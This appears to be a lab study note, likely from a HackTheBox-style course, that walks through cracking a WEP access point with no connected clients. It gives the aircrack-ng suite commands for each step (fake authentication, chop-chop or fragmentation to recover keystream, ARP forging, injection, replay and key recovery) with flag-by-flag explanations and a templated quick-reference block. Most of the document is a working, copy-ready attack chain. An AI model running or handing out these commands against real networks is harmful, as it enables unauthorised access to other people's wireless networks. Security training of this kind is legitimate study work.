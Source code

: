 # Chain #23: Attacking WEP Access Points Without Clients

Short purpose: perform WEP cracking when **no clients** are connected. We combine **fake authentication** with a **Fragmentation** or **Korek chop‑chop** attack to obtain PRGA keystream, craft an ARP packet, and inject it to generate IVs. Effectiveness depends on whether the AP accepts fake authentication.

> Requires **3 terminals**: (1) airodump capture, (2) fake authentication, (3) packet crafting (fragmentation or chop‑chop).

---

## Key terms

- **Fake authentication** — tricks AP into believing our NIC is an associated client.
- **Fragmentation / Korek chop‑chop** — methods to recover PRGA by exploiting known plaintext or CRC validation feedback.
- **PRGA (.xor)** — recovered keystream; used by `packetforge-ng`.
- **IV (Initialization Vector)** — per‑packet WEP salt; collected to crack key.

---

## Step‑by‑step workflow (concise)

1. **Capture traffic** from the AP (even if no clients are present).    
2. **Fake authenticate** to the AP using your NIC’s MAC.
3. **Perform Fragmentation or Korek chop‑chop** to retrieve PRGA.
4. **Forge ARP** using the PRGA file.
5. **Inject forged ARP** to generate IVs.
6. **Optionally ARP replay** to accelerate IV generation.
7. **Crack WEP key** offline with aircrack‑ng.

---

## Commands — statement‑by‑statement explanations

### 1) Scan and capture the target AP

```bash
sudo airodump-ng -c 3 --bssid 60:38:E0:71:E9:DC wlan0mon -w WEP
```

- **`sudo`**: root privileges required for wireless sniffing.
- **`airodump-ng`**: captures 802.11 traffic and displays AP/client details.
- **`-c 3`**: listen only on channel 3 (target AP’s channel).
- **`--bssid <MAC>`**: focus on one AP (`60:38:E0:71:E9:DC`).
- **`wlan0mon`**: interface in monitor mode.
- **`-w WEP`**: save capture as `WEP-01.cap`.
- **Goal**: verify ESSID, encryption type, and ensure your signal is stable (PWR field reasonable).

---

### 2) Fake authentication to the AP

```bash
aireplay-ng -1 1000 -o 1 -q 5 -e HTB-Wireless -a 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon
```

- **`aireplay-ng`**: handles injection/replay tasks.    
- **`-1`**: fake authentication mode.
- **`1000`**: re‑association interval (in ms) – resends authentication every 1 second.
- **`-o 1`**: send only one set of authentication packets.
- **`-q 5`**: keep‑alive request interval (every 5 seconds).
- **`-e <ESSID>`**: target ESSID (here `HTB-Wireless`).
- **`-a <BSSID>`**: AP MAC address.
- **`-h <our MAC>`**: your NIC’s MAC (spoofed if needed).
- **`wlan0mon`**: monitor interface.
- **Expected output**: “Authentication successful” and “Association successful :-)”.
- **Verification**: airodump should now list your MAC as an associated client.

---

### 3) Execute the Korek chop‑chop or Fragmentation attack

```bash
aireplay-ng -4 -b 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon
```

- **`-4`**: Korek chop‑chop attack mode.
- **`-b`**: target AP BSSID.
- **`-h`**: our (now authenticated) MAC address.
- **Effect**: iteratively guesses bytes of a captured data frame, validating each guess via ICV feedback from AP.
- **Outputs**:
    - `replay_dec-*.cap`: decrypted packet.
    - `replay_dec-*.xor`: recovered PRGA keystream.
- **Alternative**: use `-5` for Fragmentation attack if chop‑chop fails.

---

### 4) Forge ARP packet with PRGA

```bash
packetforge-ng -0 -a 60:38:e0:71:e9:dc -h 00:c0:ca:98:3e:e0 -k 192.168.1.1 -l 192.168.1.64 -y replay_dec-1229-160018.xor -w forgedarp.cap
```

- **`packetforge-ng`**: builds a valid encrypted ARP using PRGA.    
- **`-0`**: create ARP request packet.
- **`-a <AP_BSSID>`**: AP MAC (destination).
- **`-h <our MAC>`**: authenticated MAC (source).
- **`-k <dest IP>`**: gateway IP (guessed if unknown).
- **`-l <src IP>`**: station IP (guessed if unknown).
- **`-y <.xor>`**: PRGA file.
- **`-w <output>`**: save forged ARP packet.
- **Tip**: if unsure of IPs, use `255.255.255.255` for both.

---

### 5) Inject the forged packet to produce IVs

```bash
aireplay-ng -2 -r forgedarp.cap wlan0mon
```

- **`-2`**: interactive packet replay mode.
- **`-r <file>`**: read forged packet from disk.
- **`wlan0mon`**: injection interface.
- **Process**:
    - Approve packet when prompted (`y`).
    - Observe transmission count rising (e.g., “Sent 1000 packets…”).
- **Goal**: AP rebroadcasts replies → many IVs captured.

---

### 6) Optional: accelerate IV collection

Use ARP replay to speed up IV generation.

```bash
aireplay-ng -3 -b 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon
```

- **`-3`**: ARP replay mode.
- **Benefit**: loops ARPs, drastically increasing IV count in airodump capture.

---

### 7) Crack the WEP key

```bash
sudo aircrack-ng -b 60:38:E0:71:E9:DC WEP-01.cap
```

- **`aircrack-ng`**: performs offline key recovery.    
- **`-b <BSSID>`**: specify the AP.
- **`WEP-01.cap`**: capture file with IVs.
- **Expected result**: once sufficient IVs (~30–100k), `KEY FOUND! [ xx:xx:xx:xx:xx ]`.

---

## Quick reference block

```bash
# 1) Capture target
sudo airodump-ng -c <ch> --bssid <AP_BSSID> wlan0mon -w WEP

# 2) Fake authentication
aireplay-ng -1 1000 -o 1 -q 5 -e <ESSID> -a <AP_BSSID> -h <OUR_MAC> wlan0mon

# 3) Chop‑chop / Fragmentation
aireplay-ng -4 -b <AP_BSSID> -h <OUR_MAC> wlan0mon
# (or)
aireplay-ng -5 -b <AP_BSSID> -h <OUR_MAC> wlan0mon

# 4) Forge ARP with PRGA
packetforge-ng -0 -a <AP_BSSID> -h <OUR_MAC> -k 192.168.1.1 -l 192.168.1.64 -y replay_dec-*.xor -w forgedarp.cap

# 5) Inject forged ARP
aireplay-ng -2 -r forgedarp.cap wlan0mon

# 6) Optional replay boost
aireplay-ng -3 -b <AP_BSSID> -h <OUR_MAC> wlan0mon

# 7) Crack WEP
sudo aircrack-ng -b <AP_BSSID> WEP-01.cap
```

---

## Summary (one‑paragraph)

When no clients are connected, fake authentication lets us masquerade as a station to the AP, enabling Fragmentation or Korek chop‑chop attacks to retrieve PRGA. Using this keystream, we forge and inject ARP packets to force IV generation. Once enough IVs accumulate, `aircrack‑ng` can recover the WEP key. This method mainly works on older routers that still accept unauthenticated reassociations.